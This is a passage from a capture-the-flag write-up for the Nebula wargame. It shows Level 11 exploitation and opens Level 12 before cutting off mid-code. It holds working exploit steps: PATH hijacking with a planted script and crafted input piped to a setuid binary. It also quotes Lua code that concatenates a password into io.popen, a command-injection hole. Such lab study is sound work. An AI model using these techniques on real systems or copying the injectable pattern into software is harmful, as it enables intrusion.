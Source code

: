 If we test the program with a valid header and a buffer which only contains the **'x'**: 
{{< codecaption lang="sh" title="Command Execution" >}}
level11@nebula:~$ /home/flag11/flag11 
Content-Length: 1
x
sh: yP?: command not found
level11@nebula:~$ 
{{< /codecaption >}}

We can see that we reach the *system()* call and taht the *'x'* char was decoded to *'y'*. The additional random chars are due to inability to properly null terminate our buffer, but 
executing the same buffer a few times we can reach a point where the second char will randomly be a null terminator.
So now we can get code execution:

{{< codecaption lang="sh" title="Flag11" >}}
level11@nebula:~$ cat y
getflag

level11@nebula:~$ export PATH=~:$PATH
level11@nebula:~$ echo -ne "Content-Length: 1\nx" | /home/flag11/flag11 
sh: yp!: command not found
level11@nebula:~$ echo -ne "Content-Length: 1\nx" | /home/flag11/flag11 
sh: $'y0\314': command not found
level11@nebula:~$ echo -ne "Content-Length: 1\nx" | /home/flag11/flag11 
sh: $'y\260\356': command not found
level11@nebula:~$ echo -ne "Content-Length: 1\nx" | /home/flag11/flag11 
getflag is executing on a non-flag account, this doesn't count
level11@nebula:~$ 
{{< /codecaption >}}

We manage to execute *getflag*, but it complains about the user id. There are no user id manipulations in the code prior to calling *system()*, so I think there is a bug in this level. 

### Level12

#### Decription:

> *There is a backdoor process listening on port 50001.*

{{< codecaption lang="lua" title="Source Code" >}}
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password)
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
      print("trying " .. line) -- log from where ;\
      local h = hash(line)
